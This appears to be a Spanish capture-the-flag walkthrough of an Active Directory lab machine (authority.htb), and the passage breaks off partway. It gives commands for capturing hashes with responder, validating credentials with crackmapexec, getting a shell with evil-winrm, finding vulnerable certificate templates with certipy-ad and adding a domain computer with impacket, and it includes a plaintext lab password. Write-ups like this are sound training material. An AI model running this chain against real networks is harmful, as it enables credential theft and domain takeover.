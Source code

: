 ### responder 
usaremos `responder` para estar a la escucha y poder capturar el hash de autenticacion
```python
sudo responder -I tun0
# de esta manera establecemos una escucha con la herramienta responder. con el parametro "-I" para indicarle nuestra direccion ip que en este caso seria la interfaz de red tun0
```

![[Pasted image 20240612115631.png]]

`responder hash`
obtenemos el usuario y la contraseña del servicio ldap
![[Pasted image 20240612115637.png]]

### crackmapexec 
con crackmapexec podemos hacer una validación del usuario y la contraseña que hemos obtenido tanto para smb como para evil-winrm.
![[Pasted image 20240612115642.png]]

### evil-winrm
establecemos conexión con la maquina 
![[Pasted image 20240612115648.png]]

### Escalada de privilegios
tenemos el directorio de Certs. esta maquina podría tener algunos certificados que sean vulnerable 
![[Pasted image 20240612115652.png]]

### certipy-ad
con esta herramienta podemos obtener información de posibles certificados vulnerables que se encuentran dentro de la maquina victima tambien podemos ver el `Template Name: CoprVPN`
```python
certipy-ad find -u 'svc_ldap' -p 'lDaP_1n_th3_cle4r!' -target authority.htb -text -stdout -vulnerable
```

![[Pasted image 20240612115659.png]]

`Enrollment Rights`
aquí podemos ver que Domain Computers tiene permisos de `Enrollment Rights` lo que significa que tenemos permisos para agregar nuevas equipos al DC(Domain Controller)
![[Pasted image 20240612115706.png]]

### impacket-addcomputer
```python

impacket-addcomputer authority.htb/svc_ldap:lDaP_1n_th3_cle4r! -dc-ip 10.10.11.222 -computer-name 'gamuke' -computer-pass 'gamuke123'

# con este comando vamos a agregar un equipo al dominio `authority.htb` utilizando las credenciales que hemos conseguido anteriormente. proporcionando un nombre y una contraseña para el equipo que vamos a crear dentro del DC(Domain Controller) 
```
